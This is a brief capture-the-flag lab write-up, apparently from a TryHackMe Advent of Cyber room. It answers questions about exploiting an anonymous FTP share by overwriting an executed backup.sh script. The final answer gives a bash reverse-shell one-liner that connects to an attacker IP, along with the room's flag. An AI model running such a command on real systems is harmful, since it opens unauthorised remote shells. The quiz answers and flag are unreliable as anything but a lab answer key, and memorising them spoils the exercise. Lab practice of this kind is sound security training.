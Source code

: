 # Networking: Anyone can be Santa!

## Notes
```
Objective:
Understand the fundamentals of an FTP file server and some common misconfigurations to ultimately exploit these ourselves to gain entry to tbfc-ftp-01.
```

## Questions
1. Name the directory on the FTP server that has data accessible by the "anonymous" user
```
public
```

2. What script gets executed within this directory?
```
backup.sh
```

3. What movie did Santa have on his Christmas shopping list?
```
The Polar Express
```

4.  Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!
```
revershell using bash (bash -i >& /dev/tcp/10.9.18.129/4444 0>&1)
THM{even_you_can_be_santa}
```
